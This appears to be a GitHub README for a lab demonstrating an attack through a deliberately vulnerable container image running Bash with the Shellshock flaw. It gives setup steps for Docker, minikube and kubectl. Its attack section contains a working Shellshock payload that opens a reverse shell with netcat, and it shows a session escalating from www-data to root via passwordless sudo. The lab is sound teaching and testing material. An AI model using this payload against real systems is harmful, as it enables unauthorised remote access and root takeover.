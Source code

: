 # Vulnerable Container Image :smiling_imp:

This is an example of an attack caused by a vulnerable container image.

## Requirements
- CPU Architecture
  - amd64
  - x86_64
  - arm64 (:warning: use the command marked `for arm64`)
- Tools
  - Docker
  - kubectl
  - minikube

## Vulnerability Description

- Bash with [CVE-2014-6271](https://security-tracker.debian.org/tracker/CVE-2014-6271)
- Unnecessary packages such as netcat and sudo
- Root privileges can be obtained without password
- a CGI script

## Setup

1. (Only for `arm64`) Set up for using `amd64` images

```bash
# create a new instance for using `amd64` images
> docker buildx create --use

# enable qemu-user-static for using `amd64` images
> minikube ssh "sudo apt-get update && sudo apt-get -y install qemu-user-static"
> minikube stop && minikube start
```

2. Build the vulnerable container image

```bash
> docker build -t vulnerable-container-image .

# for arm64
> docker build -t vulnerable-container-image . --platform=linux/amd64 --load
```

3. Build the web container image

```bash
> docker build -t web-container-image .

# for arm64
> docker build -t web-container-image . --platform=linux/amd64 --load
```

4. Apply k8s manifests

```bash
> kubectl apply -f manifest/pod.yaml
> kubectl apply -f manifest/service.yaml
```

5. Assign the external IP to the load balancer

```bash
> minikube tunnel
```


## Attack Scenario

1. Listen to the port 5050 on the host machine

   - Terminal 1

       ```bash
       > ncat -lvnp 5050
       ```
2. Execute the command to establish a connection to the host machine from the vulnerable container
       
   - Terminal 2

        ```bash
        > curl -H "User-Agent: () { :; }; /bin/nc -e /bin/bash ${TERMINAL_IP} 5050" http://${EXTERNAL_IP}:8080/cgi-bin/vulnerable-cgi
        ```

   - Log of Terminal 1

        ```bash
        
        Ncat: Version 7.95 ( https://nmap.org/ncat )
        Ncat: Listening on [::]:5050
        Ncat: Listening on 0.0.0.0:5050
        Ncat: Connection from xxx.xxx.xxx.xxx.
        whoami # input1
        www-data # output1
        sudo su # input2
        whoami # input3
        root # output3
        ```